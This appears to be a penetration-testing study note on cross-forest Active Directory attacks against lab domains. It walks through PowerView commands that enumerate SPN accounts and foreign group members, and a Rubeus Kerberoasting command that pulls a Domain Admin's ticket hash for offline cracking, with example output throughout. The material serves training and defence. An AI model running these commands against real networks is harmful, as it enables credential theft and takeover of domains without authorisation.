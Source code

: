 ## **Overview**

In **cross-forest trust relationships**, Kerberos attacks such as **Kerberoasting** and **ASREPRoasting** can be performed across trusts, depending on their direction. This allows attackers to **gain a foothold** in a trusted domain and potentially escalate to Domain Admin privileges in the target forest.

---

## 1 Cross-Forest Kerberoasting

**Kerberoasting** can be used to extract **Kerberos Ticket Granting Service (TGS) hashes** for accounts with **Service Principal Names (SPNs)** in a trusted domain.

### **Enumerating Accounts with SPNs**

Using **PowerView**, we can enumerate accounts in the target domain that have **SPNs**.
```powershell
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```
Example Output:
```powershell
samaccountname
--------------
krbtgt
mssqlsvc
```
We identify **mssqlsvc**, which has an **SPN**. If this account has **Domain Admin** privileges, cracking its Kerberos hash will grant full control over the domain.

### **Checking Group Membership**

```powershell
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof
```
Example Output:
```powershell
samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```
Since **mssqlsvc** is a **Domain Admin**, we proceed with **Kerberoasting**.

### **Performing the Kerberoasting Attack**

Using **Rubeus**, we extract the **Kerberos hash** for offline cracking.
```powershell
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```
We can now crack this hash using **Hashcat**. If successful, we gain **full admin access** to the target domain.

---
## 2 Admin Password Reuse & Cross-Domain Group Membership

### **Identifying Privileged Accounts Across Forests**

- If **admin accounts use the same password** across domains, compromising one grants access to another.
- **Domain Local Groups** allow **external security principals** from another forest.
- If a **Domain Admin** or **Enterprise Admin** from one domain is a member of a group in another domain, they can manage resources in both.

### **Checking for Foreign Group Membership**

Using **PowerView**, we enumerate **foreign group members**.
```powershell
Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL
```

Example Output:
```powershell
GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGISTICS,DC=LOCAL
```

To resolve the **SID** to a username:
```powershell
Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500
```

Example Output:
```powershell
INLANEFREIGHT\administrator
```

This means that the **Administrator account from INLANEFREIGHT.LOCAL is a member of the Administrators group in FREIGHTLOGISTICS.LOCAL**, granting **full administrative control** over the target domain.